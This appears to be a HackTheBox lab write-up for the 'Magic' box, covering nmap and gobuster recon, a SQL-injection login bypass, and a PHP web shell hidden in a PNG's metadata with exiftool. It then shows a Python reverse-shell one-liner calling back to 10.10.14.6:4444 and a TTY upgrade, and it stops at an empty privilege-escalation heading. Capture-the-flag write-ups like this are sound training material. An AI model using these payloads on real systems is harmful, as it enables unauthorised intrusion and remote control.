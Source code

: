 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.185 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/1.png">

We discover two open ports and see that the target is running Linux. Browsing to the webserver on port 80 shows us an image upload page. We can try to gain initial foothold by uploading a reverse script. This will bropably be blocked by a filter but we can try to bypass this.

# Enumeration
We find a link to a login page. Let's first try to run gobuster in an attempt to find folders and files which could lead us to usernames and other info. We also check to see if there's a robots.txt file which can contain usefull folders.

We'll run two gobuster scans. One for file discovery and one for folders.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.185 -x txt
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.185
```
Other than three folders (```/assets /images /server-status```) we don't find anything interesting.

Because we will probably try to upload shell code to our target for initial access it is important to know where the files will be uploaded. Therefor we will run another gobuster scan on the ```/images``` directory.

We've found an ```/uploads``` folder. This might be usefull later on.

# Initial Foothold
 Next we'll try some default usernames and passwords but without any luck. One thing we didn't try was if we could use SQL injection to bypass the login screen. That seems to work as we are now logged in and able to upload images.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/2.png">

There is a filter blocking other filetypes than JPG, JPEG and PNG files. Let's fire up BurSuite to see if we can intercept the request and change it to our liking. Let's rename a JPEG file to .jpeg.php and intercept the request. We did the exact same thing eralier on the Popcorn box.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/4.png">

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/3.png">

That didn't seem to work because there is another filter blocking our attempt. This will probably be a check for file signatures. These signatures are known as magic numbers or Magic Bytes. For PNG files these are ```89 50 4E 47 0D 0A 1A 0A```. We can however add some code to a genuine PNG file in an attempt to bypass this signature filter.

We well use ```exiftools``` for this:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.php.png 
```
The file was successfully uploaded. We can now try to see if we can run commands by browsing to it's location and a simple ```list``` command. We know this locations because of the earlier found ```/uploads``` directory.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=ls
```

That worked!

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/5.png">

We can now alter the command to spawn a reverse shell. We'll use the Python code from the Pentestmonkey Cheat Sheet.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444))](http://10.10.10.185/images/uploads/exploit.php.png?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.6%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)
```
With our listener ready on port 4444 we now have a low priviliged reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/6.png">

# Lateral Movement
We spawn a TTY shell using Python3:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
``` 

We'll look around for files with SUID set, crontab jobs, kernel version, running processes but nothing stands out here. While looking around our webserver folders we discover a file containing database information.

```
/var/www/Mafic/db.php5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/7.png">


# Privilege Escalation
